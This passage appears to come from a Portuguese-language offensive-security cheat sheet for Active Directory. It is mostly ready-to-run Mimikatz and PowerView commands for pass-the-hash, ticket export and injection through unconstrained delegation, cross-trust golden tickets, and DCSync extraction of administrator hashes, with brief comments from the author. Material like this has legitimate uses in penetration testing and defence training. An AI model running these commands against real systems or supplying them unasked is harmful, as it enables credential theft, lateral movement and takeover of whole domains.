 #### Pass-The-Hash

```powershell
./mimikatz.exe sekurlsa::pth /user:USUÁRIO /domain:DOMINIO /ntlm:HASH_NTLM_EXTRAIDO /run:powershell.exe

Invoke-Mimikatz -Command '"sekurlsa::pth /user:USUÁRIO /domain:DOMINIO /ntlm:HASH_NTLM_EXTRAIDO /run:powershell.exe'
```

#### Pass-The-Ticket

Esse eu utilizo muito no [Unconstrained Delegation](#Unconstrained-Delegation), mas tem outras aplicações também

```powershell
# Primeiro devemos ver quais máquinas tem o Uncosntrained Habilitado
Get-NetComputer -UnConstrained | select Name

# Com essa informação, exportamos o ticket dentro da máquina que apareceu no comando anterior (aqui eu cirei uma seção nela, mas pode ser feito direto tbm)
Invoke-Command -ScriptBlock {Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::tickets /export"'} -Session $sess

# Após termos extraidos todos os tickets, vemos qual é interessante de se reutilizar, aqui tem que esperar algm DA ou algum usuário específico logar na máquina pra ser criado o ticket de seção pra ele, e então injetamos na seção
Invoke-Command -ScriptBlock{Invoke-Mimikatz -Command '"kerberos:: ptt [...]"'} -Session $sess

# Agora acessamos a máquina que não tinhamos acesso antes
Invoke-Command -Scriptblock{ls \\MÁQUINA.QUE.NÃO.TINHA.ACESSO.SEM.O.TICKET.local\C$} -session $sess
```

Depois especifico melhor na aba do [Unconstrained Delegation](#Unconstrained-Delegation) (ou não!)

#### Privilege Across Trusts

Na bucha é um Golden Ticket, mas através do trusts dos domains

```powershell
# Aqui ele vai criar o ticket e ja injetar na seção
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:AB.DOMINIO.local /sid:<SID do AB.DOMINIO.local> /krbtgt:KRBTGT_NTLM /sids:<SID do DOMINIO.local> /ptt"'

# AB.DOMINIO.local - Get-DomainSID
# DOMINIO.local - Get-DomainSID -Domain DOMINIO.local
```

Agora vamos ter acesso ao DOMINIO.local através do AB.DOMINIO.local

#### DCSync

```powershell
# Sempre lembrar do privilege::debug e do token::elevate
Invoke-Mimikatz -Command "privilege::debug" "token::elevate" "lsadump::dcsync /domain:AB.DOMINIO.local /user:Administrator" "exit"
```
